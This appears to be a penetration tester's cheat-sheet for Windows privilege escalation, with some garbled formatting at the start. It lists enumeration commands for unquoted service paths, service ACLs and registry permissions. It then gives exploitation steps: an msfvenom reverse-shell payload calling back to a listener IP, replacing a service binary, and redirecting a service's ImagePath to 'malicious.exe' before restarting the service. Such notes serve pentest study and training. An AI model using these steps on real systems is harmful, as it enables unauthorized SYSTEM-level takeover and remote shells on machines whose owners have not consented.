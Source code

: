 ```
^powershell
```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
```
^cmd

***Insecure Service Permissions***
```
$services = Get-WmiObject -Class win32_service | Select-Object Name, StartName, PathName  
    foreach ($service in $services) {  
      $acl = Get-Acl -Path "HKLM:\System\CurrentControlSet\Services\$($service.Name)"  
      $acl.Access 
    }
```

```
accesschk.exe /accepteula -wuvc "C:\Program Files"
```

```
accesschk.exe /accepteula -uwcqv *
```
- Look for entries where the user has WRITE_DAC, WRITE_OWNER, or SERVICE_CHANGE_CONFIG permissions.
- confirm service is vulnerable with:
	- `sc qc VulnerableService`
		- example output:
			- [SC] QueryServiceConfig SUCCESS
				SERVICE_NAME: VulnerableService
			       TYPE               : 10  WIN32_OWN_PROCESS
			       START_TYPE         : 2   AUTO_START
			       ERROR_CONTROL      : 1   NORMAL
			       BINARY_PATH_NAME   : C:\Program Files\VulnerableService\service.exe
			       LOAD_ORDER_GROUP   :
			       TAG                : 0
			       DISPLAY_NAME       : Vulnerable Service
			       DEPENDENCIES       :
			       SERVICE_START_NAME : LocalSystem
- replace binary file with msfvenom revshell .exe
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.126.147 LPORT=1234 -f exe -o service.exe`
- restart the service
	- `net stop VulnerableService`
	- `net start VulnerableService`

***Weak Registry Permissions***
- Check permissions on registry keys:
	- `icacls C:\path\to\file`
```
accesschk.exe /accepteula -kqv "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options"
```

```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService"
```
- if key is writable by standard using, point ImagePath of VulnerableService to msfvenom shell located in directory user can write to:
```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\VulnerableService" /v ImagePath /t REG_EXPAND_SZ /d "C:\Users\Public\malicious.exe" /f
```
- restart the service:
	- `net stop VulnerableService`
	- `net start VulnerableService`

```